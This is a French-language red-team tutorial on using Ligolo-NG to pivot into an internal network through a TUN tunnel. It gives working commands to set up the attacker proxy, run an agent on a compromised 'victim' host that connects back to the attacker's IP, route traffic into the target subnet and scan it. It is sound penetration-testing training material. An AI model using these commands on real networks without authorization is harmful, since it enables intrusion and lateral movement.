

# Ligolo-NG — Le Câble Virtuel

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-version="0.5.1+"
  data-time="~25 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Câble VPN Magique"
    Avec **Chisel**, vous aviez l'impression d'utiliser un traducteur (Proxychains) qui murmurait à l'oreille d'une porte SOCKS5 pour faire passer vos paquets réseau un par un. C'était lent, lourd, et impossible d'utiliser la commande `ping`.
    **Ligolo-NG** supprime le traducteur. Il crée une fausse carte réseau sur votre ordinateur (Kali Linux) et tire un "câble virtuel" invisible directement jusqu'à la machine de la victime. Votre ordinateur a littéralement l'impression d'être physiquement branché dans les locaux de l'entreprise. 

Développé en Go, `ligolo-ng` est aujourd'hui le standard absolu de l'industrie pour le Pivoting en Red Team. Il a totalement ringardisé l'usage de SOCKS5/Proxychains grâce à l'utilisation des interfaces virtuelles `TUN` natives de Linux. La vitesse de transfert est foudroyante, le multiplexage est parfait, et **tous les protocoles** fonctionnent (Nmap SYN Scans, Ping, NTLM Relay).

<br>

---

## Architecture & Mécanismes Internes

### L'Interface TUN et le Routage Linux
La magie de Ligolo réside dans la table de routage (`ip route`). Au lieu de forcer chaque logiciel à utiliser un proxy, c'est le noyau Linux de Kali qui redirige automatiquement le trafic vers l'interface virtuelle si la destination est dans le réseau interne ciblé.



<br>

---

## Intégration dans la Kill Chain

| Phase Précédente | Ligolo-NG | Phase Suivante |
| :--- | :--- | :--- |
| **Pénétration Périphérique** <br> (*Serveur Web compromis*) <br> On a réussi à avoir un reverse shell root et on a découvert que le serveur est connecté au sous-réseau `172.16.5.0/24`. | ➔ **Mouvement Latéral (Pivoting)** ➔ <br> On établit la connexion TLS et on configure le routage. | **Attaque du Cœur de Réseau** <br> (*Bloodhound / Nmap*) <br> On lance un vrai scan réseau rapide sans aucun artifice, comme si on était sur place. |

<br>

---

## Workflow Opérationnel & Lignes de Commande Avancées

Ligolo-NG est extrêmement puissant, mais son installation initiale demande des droits Administrateur (`sudo`) sur la machine de l'attaquant pour créer la carte réseau virtuelle.

### 1. Préparation de la Machine Attaquante (Kali)
Avant même de lancer l'outil, il faut forger l'interface virtuelle `ligolo` dans le noyau Linux.
```bash title="Création de l'interface TUN (Une seule fois)"
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

Ensuite, on lance le serveur (le "Proxy" Ligolo) sur Kali. Contrairement à Chisel, ce proxy tourne sur un seul port TCP (11601 par défaut) et écoute silencieusement.
```bash title="Démarrage du Serveur Ligolo"
# Accepte les agents sur toutes les interfaces, port 11601
./proxy -selfcert
```

### 2. Démarrage de l'Agent (Sur la Victime)
On a transféré l'agent Ligolo sur la machine compromise (Windows ou Linux). On lui dit de se connecter à notre proxy.
```bash title="Sur la machine victime"
./agent -connect 10.10.10.42:11601 -ignore-cert
```
*Dès l'exécution, sur votre Kali, le Proxy affiche un pop-up : `[Agent: user@SRV-WEB] Connected`.*

### 3. Le Routage (Le Coup de Grâce)
Dans l'interface Proxy de Kali, tapez `session`, choisissez l'agent de la victime, puis tapez la commande magique `start`. Le tunnel est établi.
Il ne reste plus qu'à dire à Kali d'utiliser ce tunnel pour joindre le réseau de l'entreprise cible :
```bash title="Sur le terminal de Kali"
# Toute demande IP allant vers 172.16.5.0/24 passera par l'interface Ligolo
sudo ip route add 172.16.5.0/24 dev ligolo
```

### 4. L'Attaque (La récompense)
Terminé Proxychains. Terminé les drapeaux Nmap limitants. Vous utilisez vos outils **normalement**.
```bash title="Comme à la maison"
# Un vrai scan SYN avec détection OS, hyper rapide !
sudo nmap -sS -O 172.16.5.10

# Accès web fluide
curl http://172.16.5.10
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication technique |
|---|---|---|
| ✅ **À FAIRE** | **Le Double-Pivoting (Inception)** | Si vous piratez une machine interne (`172.16.5.10`) qui elle-même est connectée à un réseau ultra-sécurisé (`10.0.0.0/8`), vous pouvez lancer un Agent Ligolo sur cette 2ème machine et lui dire de se connecter au Proxy de Kali (en utilisant l'interface `ligolo` existante). Vous pouvez pivoter indéfiniment de machine en machine. |
| ❌ **À NE PAS FAIRE** | **Oublier d'effacer ses routes réseau** | Après un exercice Red Team, si vous n'effacez pas la table de routage de votre machine Kali, vous risquez d'envoyer par accident du trafic malveillant destiné à un lab TryHackMe vers un vrai client de votre entreprise dont le réseau utiliserait la même plage IP. Pensez toujours à taper : `sudo ip route del 172.16.5.0/24 dev ligolo`. |

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Ligolo-NG représente le stade final de l'évolution du Pivoting. En exploitant la technologie TUN (la même technologie derrière les réseaux VPN mondiaux comme OpenVPN ou Wireguard), Ligolo offre à l'auditeur un confort de travail absolu. Il permet d'oublier la contrainte géographique ("Je suis à 5000 km du réseau cible") pour se concentrer uniquement sur la technique.

> Les outils comme Metasploit, PEAS ou Ligolo sont d'excellents logiciels. Mais comment faire si le serveur de votre client bloque tous ces exécutables ? Il va falloir exploiter les logiciels natifs déjà présents sur le serveur pour accomplir vos tâches ("Living Off The Land"). Pour trouver ces commandes obscures, vous aurez besoin de l'Encyclopédie de la compromission : **[Payloads All The Things →](./payload-all-the-things.md)**.
